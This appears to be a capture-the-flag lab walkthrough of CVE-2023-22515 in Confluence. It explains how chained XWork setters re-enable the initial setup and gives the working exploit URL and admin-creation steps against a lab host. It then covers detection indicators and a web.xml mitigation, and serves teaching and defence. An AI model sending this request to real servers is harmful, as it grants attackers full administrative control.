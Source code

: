 ﻿On October 4th, 2023, Atlassian released a [security advisory](https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html) regarding **CVE-2023-22515**, a broken access control vulnerability, with an assigned CVSS score of **10.0**. The vulnerability was introduced in version 8.0.0 of Confluence Server and Data Center editions and is present in versions`<8.3.3`,`<8.4.3`,`<8.5.2`. According to Atlassian, the vulnerability has already been exploited in the wild.

An attacker can exploit the vulnerability to create an additional account in Confluence with full administrative privileges. The attacker needs no prior information to exploit the vulnerability. The vulnerability is believed to enable other unknown attack vectors and should be patched as soon as possible.


# Confluence's Initial Setup

When running Confluence for the first time, you'll go through the initial setup, which allows you to configure some basic parameters and create an administrative account. The initial setup can be reached by navigating to`http://10.10.140.118:8090/setup/`.

If you try to access the initial setup after you have completed it, you won't be able to go through the setup again but will be greeted with a message stating that the setup process is already complete:

![Setup Complete Message](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/87a38e7e852b41d0cf2eee22d9a1708e.png)

This is normal expected behavior and would normally not be useful for an attacker at all.

# Enter CVE-2023-22515

This vulnerability allows an attacker to reenable the initial setup process. In doing so, the attacker can go through the step of creating a new administrator all over again.

This is all possible because Confluence is built using the Apache Struts framework, which depends on the XWork package. XWork allows you to define Actions in the form of a Java class. Each Action can be invoked through a URL, and the corresponding Java class will handle the request, do whatever the Action requires, and emit a response. To clarify how Actions work, navigate to`http://10.10.140.118:8090/`. You should immediately be redirected to`http://10.10.140.118:8090/login.action`. This URL calls an Action bound to a Java class to handle login attempts. When an Action is invoked through its URL, the`execute()` method of the class will be called by default.

# Calling Getters/Setters via XWorks 

We can also call getters and setters in Action classes by using a URL specifying an HTTP parameter with the chain of attributes we want to get/set. As an example, if the login Action class had a`setId()` method, we could invoke it via the following URL:

```shell
http://10.10.140.118:8090/login.action?Id=123
```

This would execute`setId('123')` as defined in the corresponding Action class.

# Chaining Getters/Setters to Reenable the Initial Setup

The reported exploit takes advantage of the`ServerInfoAction` Action. The reason for picking this specific Action is that we can build a chain of getters/setters from it to set the configuration parameter that turns the initial setup on or off.

If you analyse the code of the`ServerInfoAction` class, you'll see it extends the`ConfluenceActionSupport` class. By doing so, it will inherit all of its methods as well. One such method is a getter that returns a`BootstrapStatusProvider` object:

```java
public class ConfluenceActionSupport extends ActionSupport implements LocaleProvider, WebInterface, MessageHolderAware {
 public BootstrapStatusProvider getBootstrapStatusProvider() {
 if (this.bootstrapStatusProvider == null)
 this.bootstrapStatusProvider = BootstrapStatusProviderImpl.getInstance(); 
 return this.bootstrapStatusProvider;
 }
}
```

We care about the`BootstrapStatusProvider` class because it has another getter method we can use to retrieve an`ApplicationConfiguration` object:

```java
public class BootstrapStatusProviderImpl implements BootstrapStatusProvider, BootstrapManagerInternal {
 public ApplicationConfiguration getApplicationConfig() {
 return this.delegate.getApplicationConfig();
 }
}
```

As you have probably guessed by now, this object contains the application's configuration, including an attribute that tells Confluence if the initial setup has been finished. Such attribute can be modified by using a setter in the`ApplicationConfig` class:

```java
public class ApplicationConfig implements ApplicationConfiguration {
 public synchronized void setSetupComplete(boolean setupComplete) {
 this.setupComplete = setupComplete;
 } 
}
```

If we call`setSetupComplete(false)`, we will effectively reenable the initial setup. Putting it all together, we can call that chain of getters/setters by accessing the following URL:

```shell-session
http://10.10.140.118:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
```

This will be effectively translated by XWork into a call to:

```java
getBootstrapStatusProvider().getApplicationConfig().setSetupComplete(false)
```

Now, go to your browser and navigate to the crafted URL to trigger the vulnerability. You should get the following response from the server:

![Successful Exploit Response](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f84573513308dce89e4e11f2aa5421d7.png)

# Creating an Admin Account

Now that we can access the initial setup once again, let's browse to:```shell-session
http://10.10.140.118:8090/setup/setupadministrator-start.action
```

Fill in the details of your new admin user and click next:

![Creating a New Admin](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/eabc9bac04b7cf6512f120e4e93e0df6.png)

If all goes well, you should get access to Confluence with administrative privileges!

![Checking the Admin Account](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5a03b959aba38ec9fb2e12cd37401176.png)

In this task, we have gone through a quick explanation of the vulnerability. If you want a more in-depth look at the technical details, check [Rapid7 analysis in attackerKB](https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis?referrer=moreFromAKB).


# AUTOMATING EXPLOITATION

As we have seen, exploiting the vulnerability is relatively straightforward and can be done manually using a single request and a regular browser. Even so, automated exploits are readily available. Chocapikk developed one such exploit, which can be downloaded from [here](https://github.com/Chocapikk/CVE-2023-22515). Feel free to download and use the exploit against the target machine!

On the other hand, if you need to test many servers to see if they are vulnerable, a simple vulnerability scanner was developed by ErikWynter. It can be obtained from his [GitHub page](https://github.com/ErikWynter/CVE-2023-22515-Scan). Unlike Chocapikk's script, this one will not exploit the vulnerability but test for it only.

# Detection

Should you have an instance of a vulnerable version of Confluence, be sure to check for the following:

- Network access logs pointing to`/setup/*.action`. There's no reason for a regular user to request such URLs after installation.
- Network access logs to`/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false`.
- Review your Confluence users and look for suspicious accounts and members of the`confluence-administrators` group.

# Patching

All vulnerable instances should be upgraded to at least one of the following versions as soon as possible:

- 8.3.3
- 8.4.3
- 8.5.2

If upgrading is not possible immediately, access to the`/setup/*` endpoints may be blocked as a temporary measure. To do so, add the following security constraint inside the`<web-app>` tag in`/<confluence-install-dir>/confluence/WEB-INF/web.xml`:

```xml
<security-constraint>
 <web-resource-collection>
 <url-pattern>/setup/*</url-pattern>
 <http-method-omission>*</http-method-omission>
 </web-resource-collection>
 <auth-constraint />
</security-constraint>
```

This will effectively restrict the access to`/setup/*`.

Remember that the mitigation instructions shouldn't be considered a definitive patch but only an interim measure. Servers should still be upgraded as soon as it becomes possible.
